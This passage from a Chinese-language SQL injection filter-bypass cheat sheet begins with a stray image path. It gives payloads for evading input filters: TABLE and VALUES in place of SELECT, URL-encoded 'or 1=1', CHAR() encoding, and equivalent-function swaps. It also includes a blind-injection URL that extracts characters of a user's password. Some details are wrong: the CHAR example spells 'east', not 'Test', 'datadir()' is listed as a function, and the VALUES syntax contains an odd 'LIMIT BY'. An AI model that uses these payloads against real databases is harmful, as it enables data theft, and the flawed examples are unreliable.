 可以直接列出表的全部内容

```sql
TABLE table_name [ORDER BY column_name] [LIMIT number [OFFSET number]]
```

如 `select * from user` 就可以用 `table user` 替代来进行绕过

#### VALUES 语句

可以列出一行的值

```sql
VALUES row_constructor_list [ORDER BY column_designator] [LIMIT BY number]

row_constructor_list:
 ROW(value_list)[, ROW(value_list)][, ...]

value_list:
 value[, value][, ...]

column_designator:
 column_index
```

例如直接列出一行的值

```sql
VALUES ROW(1,2,3), ROW(4,5,6);
```

> VALUES和TABLES语句的结果都是表数据，可以结合起来使用

## 使用**编码**绕过过滤

如`URLEncode`编码，`ASCII`,`HEX`,`unicode`编码绕过

`or 1=1`即`%6f%72%20%31%3d%31`，而`Test`也可以为`CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)`

## 使用**等价函数**绕过过滤

```sql
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```
